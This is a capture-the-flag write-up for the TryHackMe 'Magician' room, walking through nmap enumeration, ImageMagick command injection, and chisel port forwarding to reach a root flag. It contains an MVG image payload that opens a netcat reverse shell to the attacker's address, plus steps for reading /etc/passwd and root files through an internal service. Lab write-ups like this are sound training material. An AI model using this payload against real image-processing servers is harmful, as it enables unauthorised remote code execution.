


# Magician TryHackMe Writeup

> Room Link : https://tryhackme.com/room/magician


## Pathway

In this room we exploit a vulnerability in ImageMagick and gain foothold and find a service running internally , we portforward it to our local machine and get root flag.


## __First Stage : Enumeration__


So as usual we start with our fav nmap.

```
# Nmap 7.91 scan initiated Mon Feb 22 18:22:51 2021 as: nmap -sC -sV -T4 -vv -p- -oN nmapscan magician
Warning: 10.10.187.130 giving up on port because retransmission cap hit (6).
Nmap scan report for magician (10.10.187.130)
Host is up, received conn-refused (0.18s latency).
Scanned at 2021-02-22 18:22:51 IST for 725s
Not shown: 65527 closed ports
Reason: 65527 conn-refused
PORT      STATE    SERVICE        REASON      VERSION
21/tcp    open     ftp            syn-ack     vsftpd 2.0.8 or later
1620/tcp  filtered faxportwinport no-response
8080/tcp  open     http-proxy     syn-ack
| fingerprint-strings: 
|   FourOhFourRequest: 
|     HTTP/1.1 404 
|     Vary: Origin
|     Vary: Access-Control-Request-Method
|     Vary: Access-Control-Request-Headers
|     Content-Type: application/json
|     Date: Mon, 22 Feb 2021 13:02:43 GMT
|     Connection: close
|     {"timestamp":"2021-02-22T13:02:44.102+0000","status":404,"error":"Not Found","message":"No message available","path":"/nice%20ports%2C/Tri%6Eity.txt%2ebak"}
|   GetRequest: 
|     HTTP/1.1 404 
|     Vary: Origin
|     Vary: Access-Control-Request-Method
|     Vary: Access-Control-Request-Headers
|     Content-Type: application/json
|     Date: Mon, 22 Feb 2021 13:02:41 GMT
|     Connection: close
|     {"timestamp":"2021-02-22T13:02:42.141+0000","status":404,"error":"Not Found","message":"No message available","path":"/"}
|   HTTPOptions: 
|     HTTP/1.1 404 
|     Vary: Origin
|     Vary: Access-Control-Request-Method
|     Vary: Access-Control-Request-Headers
|     Content-Type: application/json
|     Date: Mon, 22 Feb 2021 13:02:42 GMT
|     Connection: close
|     {"timestamp":"2021-02-22T13:02:42.551+0000","status":404,"error":"Not Found","message":"No message available","path":"/"}
|   RTSPRequest: 
|     HTTP/1.1 505 
|     Content-Type: text/html;charset=utf-8
|     Content-Language: en
|     Content-Length: 465
|     Date: Mon, 22 Feb 2021 13:02:43 GMT
|     <!doctype html><html lang="en"><head><title>HTTP Status 505 
|     HTTP Version Not Supported</title><style type="text/css">body {font-family:Tahoma,Arial,sans-serif;} h1, h2, h3, b {color:white;background-color:#525D76;} h1 {font-size:22px;} h2 {font-size:16px;} h3 {font-size:14px;} p {font-size:12px;} a {color:black;} .line {height:1px;background-color:#525D76;border:none;}</style></head><body><h1>HTTP Status 505 
|_    HTTP Version Not Supported</h1></body></html>
|_http-title: Site doesn't have a title (application/json).
8081/tcp  open     http           syn-ack     nginx 1.14.0 (Ubuntu)
|_http-favicon: Unknown favicon MD5: CA4D0E532A1010F93901DFCB3A9FC682
| http-methods: 
|_  Supported Methods: GET HEAD
|_http-server-header: nginx/1.14.0 (Ubuntu)
|_http-title: magician
27466/tcp filtered unknown        no-response
35186/tcp filtered unknown        no-response
48369/tcp filtered unknown        no-response
54978/tcp filtered unknown        no-response
1 service unrecognized despite returning data. 
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Mon Feb 22 18:34:56 2021 -- 1 IP address (1 host up) scanned in 725.28 seconds
```


Hence we can see there is a http server running port 8081.


So let's add the machine ip in **/etc/hosts** as __magician__ .


Hence this server converts png images to jpg format.


I tried intercepting the request , uploading reverse shell but none worked. So I tried enumerating ftp. And found something interesting (not a file)


## __Second Stage : Initial Foothold__

Hence I visited the link and got to know about the what was happening in the background.

So ImageMagick is a package used by web servers to convert or process images . And this package had a serious vulnerability of RCE (the one hackers love) and this our clue to exploit this box. 

So in the article they explained how to create a image file with command injection . For example

exploit.mvg 

```
push graphic-context
viewbox 0 0 640 480
fill 'url(https://example.com/image.jpg";|ls "-la)'
pop graphic-context
```

Hence we need to create a payload like this for png , as I was searching for payloads I found one (two) in [PayloadAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings)




Hence I cloned the repo and got the payload and changed the ip value and uploaded it.


exploit.png
```
push graphic-context
encoding "UTF-8"
viewbox 0 0 1 1
affine 1 0 0 1 0 0
push graphic-context
image Over 0,0 1,1 '|mkfifo /tmp/gjdpez; nc <vpnip> 4444 0</tmp/gjdpez | /bin/sh >/tmp/gjdpez 2>&1; rm /tmp/gjdpez '
pop graphic-context
```


And I got shell back.


And we can get user.txt.


## __Third Stage : Magician to root__





The word locally listening hinted me it has something to do with some service running internally.

So I ran the command 

> netstat -tulpn | grep LISTEN


So I used python server to download **Chisel** for portforwarding.

In my local machine 

> ./chisel server -p 10000 --reverse

In the thm machine

> ./chisel 10.8.74.96:10000 R:6666:127.0.0.1:6666


Next visiting http://127.0.0.1:6666 we can see


I just tried **/etc/passwd**

And got 


Hence I tried **/root/root.txt**


And I know this is **vigenere_chipher** , So I used a website to solve this.

> https://www.boxentriq.com/code-breaking/vigenere-cipher


And got root flag

